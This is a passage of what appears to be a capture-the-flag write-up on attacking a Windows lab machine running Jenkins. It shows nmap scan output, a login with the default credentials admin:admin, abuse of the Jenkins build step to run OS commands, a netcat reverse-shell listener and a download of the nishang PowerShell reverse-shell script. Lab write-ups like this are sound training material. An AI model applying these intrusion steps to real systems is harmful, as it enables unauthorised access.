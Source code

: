 3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-04-27T04:28:50
|_Not valid after:  2021-10-27T04:28:50
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 02:A1:17:7C:CE:0B (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms <hostname> (<ip>)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.01 seconds{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to load the url `http://<ip>:8080`. Try login with default credentials `admin:admin` for the `jenkins` page.

The default login works, and `superuser` privilege in `jenkins` can be exploited to run native os commands.

Using `firefox` navigate to `project` and select `configure`. Open `build` which will allow native os commands to be passed on as part of build.

This exploit can be made use of, to create a `reverse shell`.

Create a `netcat` listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 443{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {% include code.html code=code %}

Download the `Invoke-PowerShellTcp.ps1` script using
{% capture code %}{% raw %}wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1{% endraw %}{% endcapture %} {% include code.html code=code %}
